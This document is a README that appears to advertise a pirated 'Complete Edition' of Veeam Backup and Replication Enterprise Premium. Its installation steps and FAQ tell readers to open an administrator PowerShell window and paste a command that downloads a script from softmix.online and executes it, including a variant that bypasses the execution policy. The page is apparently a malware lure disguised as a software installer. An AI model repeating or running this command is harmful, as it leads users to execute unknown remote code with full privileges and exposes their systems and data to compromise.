

<div align="center">


<br>


# Veeam Backup and Replication Enterprise Premium
**Enterprise backup platform · VM and cloud replication · Premium recovery tools**
<br>
**Enterprise backup platform · VM and cloud replication · Premium recovery tools**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all backup modules and premium replication tools enabled.**

</div>
---

> Licensed premium Veeam enterprise with VM replication and every advanced recovery module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

💾 **Disk imaging** — Full and incremental backups supported.
🔄 **Recovery tools** — Restore systems and files quickly.
📦 **Local backup suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for desktop and server drives.
⚙️ **Pro scheduling** — Automated backup jobs enabled.
🛡️ **Data protection** — Clone and migrate workflows included.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 5 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 5 GB.
</details>


TAGS
veeam-backup, enterprise-backup, vm-replication, disaster-recovery, cloud-backup, restore-tools, enterprise, windows, desktop, software, pro, studio, tools
